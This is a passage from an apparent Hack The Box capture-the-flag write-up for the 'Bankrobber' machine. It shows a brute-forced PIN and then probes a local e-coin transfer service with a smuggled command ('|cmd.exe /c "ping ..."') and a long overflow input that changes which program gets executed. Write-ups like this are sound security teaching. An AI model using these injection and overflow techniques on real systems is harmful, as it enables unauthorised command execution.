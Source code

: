       Got response.
      [$] PIN is correct, access granted!

      ### Correct PIN: 0021 ###


3. We found the PIN, however manually executing telnet and entering the PIN still gives us '[!] Access denied'. Continue to enumerate
   the service and what happens after we enter correct PIN by capturing and printing all the responses. Doing so we find that a second
   type of input is needed - transfer amount.

     ..
     [$] PIN is correct, access granted!

     ### Correct PIN: 0021 ###
     --------------------------------------------------------------
     Please enter the amount of e-coins you would like to transfer:
     [$] .........
     [!] You waited too long, disconnecting client....

   We create a new script to capture the second input parameter (starting with '[$]' again) and try to send some data. We start by
   trying to execute a simple ping, doing so gives us the following response:

     [$] PIN is correct, access granted!
     --------------------------------------------------------------
     Please enter the amount of e-coins you would like to transfer:
     [$]
     Executing RCE: |cmd.exe /c "ping 10.10.14.21"
     [$] Transfering $|cmd.exe /c "ping 10.10.14.21" using our e-coin transfer application.
     [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

     [$] Transaction in progress, you can safely disconnect...

   This doesn't really give us anything. I try again but this time flood the input by sending '9999999999999999999999999999999999999999999999999'
   and we get an interesting response:

     [$] PIN is correct, access granted!
     --------------------------------------------------------------
     Please enter the amount of e-coins you would like to transfer:
     [$]
     Executing RCE: 9999999999999999999999999999999999999999999999999
     [$] Transfering $9999999999999999999999999999999999999999999999999 using our e-coin transfer application.
     [$] Executing e-coin transfer tool: 99999999999999999

     [$] Transaction in progress, you can safely disconnect...

   The executing row changed, now instead of executing transfer.exe it will try to execute '99999999999999999'. Notice that we lost
   a lot of 9's from our input compared to the output.

   root@p3:/opt/htb/machines/bankrobber# echo 99999999999999999 | wc -c
    18
   root@p3:/opt/htb/machines/bankrobber# echo 9999999999999999999999999999999999999999999999999 | wc -c
    50
